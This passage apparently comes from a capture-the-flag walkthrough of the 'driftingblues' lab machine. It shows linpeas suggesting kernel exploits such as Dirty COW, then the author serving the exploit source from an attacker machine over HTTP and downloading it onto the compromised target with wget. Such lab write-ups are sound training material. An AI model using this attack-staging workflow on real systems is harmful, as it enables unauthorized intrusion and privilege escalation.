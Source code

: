 The `linpeas.sh` script shows the following exploit suggestions
```bash
...
╔══════════╣ Executing Linux Exploit Suggester 2
╚ https://github.com/jondonas/linux-exploit-suggester-2                                                                                                                                                                                     
  [1] dirty_cow                                                                                                                                                                                                                             
      CVE-2016-5195
      Source: http://www.exploit-db.com/exploits/40616
  [2] exploit_x
      CVE-2018-14665
      Source: http://www.exploit-db.com/exploits/45697
  [3] msr
      CVE-2013-0268
      Source: http://www.exploit-db.com/exploits/27297
  [4] perf_swevent
      CVE-2013-2094
      Source: http://www.exploit-db.com/exploits/26131
...
```

Lets try [`dirty cow`](http://www.exploit-db.com/exploits/40616)  
  
After downloading the source file we provide it on our attacker machine, so we can download it to the target.
```bash
 python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

Now we are performing a `wget` to download the file `40616.c` to the target
```bash
www-data@driftingblues:/tmp$ wget http://192.168.49.76/40616.c
wget http://192.168.49.76/40616.c
--2022-11-19 10:17:01--  http://192.168.49.76/40616.c
Connecting to 192.168.49.76:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 4963 (4.8K) [text/x-csrc]
Saving to: `40616.c'

     0K ....                                                  100% 7.20M=0.001s

2022-11-19 10:17:01 (7.20 MB/s) - `40616.c' saved [4963/4963]
```

`40616.c` gets downloaded
```bash
 python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
192.168.76.219 - - [19/Nov/2022 11:17:01] "GET /40616.c HTTP/1.1" 200 -
```
